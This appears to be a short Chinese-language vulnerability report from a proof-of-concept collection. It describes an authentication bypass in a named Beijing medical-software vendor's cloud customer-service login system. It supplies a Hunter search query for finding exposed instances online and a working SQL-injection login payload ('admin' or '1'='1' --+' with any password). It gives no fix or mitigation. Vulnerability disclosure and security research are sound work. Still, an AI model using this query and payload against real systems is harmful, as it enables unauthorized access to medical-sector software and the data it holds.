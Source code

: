 # 北京新网医讯技术有限公司云端客服管理系统存在万能密码登录漏洞

# 一、漏洞简介
北京新网医讯技术有限公司，公司成立于2000年3月，注册于北京中关村科技园，为国家高新技术企业和中关村高新技术企业（简称为“双高企业”），公司作为软件企业，成为北京软件和信息服务业协会会员。公司专业从事PACS(图像存储与传输系统)和RIS（放射科信息管理系统）的研究、开发工作。北京新网医讯技术有限公司云端客服管理系统存在万能密码登录漏洞。

# 二、影响版本
+ 北京新网医讯技术有限公司云端客服管理系统

# 三、资产测绘
+ hunter`web.body="云端客服管理平台登录"`
+ 特征

![1709787073905-2d7599e1-7cfb-4312-b2d8-f6be71af0784.png](./img/Y_MNc902yW0PgTrR/1709787073905-2d7599e1-7cfb-4312-b2d8-f6be71af0784-095232.png)

# 四、漏洞复现
```plain
用户名:admin' or '1'='1' --+
密码：任意
```

![1709787140518-981e086c-2809-4e9f-b235-f5d9f64cde2f.png](./img/Y_MNc902yW0PgTrR/1709787140518-981e086c-2809-4e9f-b235-f5d9f64cde2f-999549.png)



> 更新: 2024-04-20 22:06:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mh17k2gha1lqa0on>